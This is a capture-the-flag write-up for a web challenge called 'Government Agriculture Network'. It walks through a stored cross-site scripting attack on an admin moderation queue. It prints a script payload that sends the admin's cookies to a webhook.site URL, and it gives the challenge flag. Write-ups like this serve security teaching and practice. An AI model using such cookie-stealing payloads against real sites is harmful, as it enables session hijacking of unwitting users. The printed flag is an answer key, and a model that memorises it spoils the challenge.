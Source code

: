 # Government Agriculture Network
## Description
Well it seems someone can't keep their work life and their home life separate. You vaguely recall on your home planet, posters put up everywhere that said "Loose Zips sink large commercial properties with a responsibility to the shareholders." You wonder if there is a similar concept here. Using the credentials to access this so-called Agricultural network, you realize that SarahH was just hired as a vendor or contract worker and given access that was equivalent. You can only assume that Vendor/Contractor is the highest possible rank bestowed upon only the most revered and well regarded individuals of the land and expect information and access to flow like the Xenovian acid streams you used to bathe in as a child. The portal picture displays that small very attractive individual whom you instantly form a bond with, despite not knowing. You must meet this entity! Converse and convince them you're meant to be! After a brief amount of time the picture shifts into a biped presumably ingesting this creature! HOW DARE THEY. You have to save them, you have to stop this from happening. Get more information about this Gubberment thing and stop this atrocity. You need to get in closer to save them - you beat on the window, but you need access to the cauliflower's host to rescue it.

## Solution
We will begin by examining the site https://govagriculture.web.ctfcompetition.com/ . The anchor id hints that this is a cross-site scripting challenge (XSS). The webpage contains:

* Link to /admin page
* Form input
* Two images

We should try submitting HTML tags and JavaScript since XSS executes code in the context of the user viewing the vulnerable page.

1. What happens if we visit `/admin`?

Nothing

2. What happens when we submit a script tag such as `<script>alert(1)</script>`?

We land on a page with the following message
```
Your post was submitted for review. Administator will take a look shortly. 
```

The `<script>` tag isn't found in the source, but this message hints at a moderation queue. We may be able to execute code when an admin views the queue.

3. Does anything actually happen on submission?

We can modify `<script>` to perform a request by setting the `src` attribute. A website such as https://webhook.site/ can be used for logging requests.

Let's try again with
```html
<script src="https://webhook.site/f610b3ae-9ba3-44d1-84f2-c5c8d7b7ec64"></script>
```

This results in a request from `https://govagriculture.web.ctfcompetition.com/pwn?msg=%3Cscript+src%3D%22https%3A%2F%2Fwebhook.site%2Ff610b3ae-9ba3-44d1-84f2-c5c8d7b7ec64%22%3E%3C%2Fscript%3E`.

Great, the `<script>` executed.

4. How do we exfiltrate data?

Arbitrary HTML means we can retrieve the admin's cookies and pass it to our server using JS. This assumes that `HTTPOnly` isn't set for the important cookies. The admin cookies may grant access to the admin interface.

We can use the following payload
```html
<img id="foo">
<script>
    document.addEventListener("DOMContentLoaded", function() {
        // force request to our site and pass cookie in query string 
        document.getElementById("foo").src = "https://webhook.site/f610b3ae-9ba3-44d1-84f2-c5c8d7b7ec64?" + encodeURIComponent(document.cookie);
    })
</script>
```

This results in a request with following query string `flag=CTF{8aaa2f34b392b415601804c2f5f0f24e};_session=HWSuwX8784CmkQC1Vv0BXETjyXMtNQrV`. Setting the `_session` cookie doesn't do anything.

### Flag
`CTF{8aaa2f34b392b415601804c2f5f0f24e}`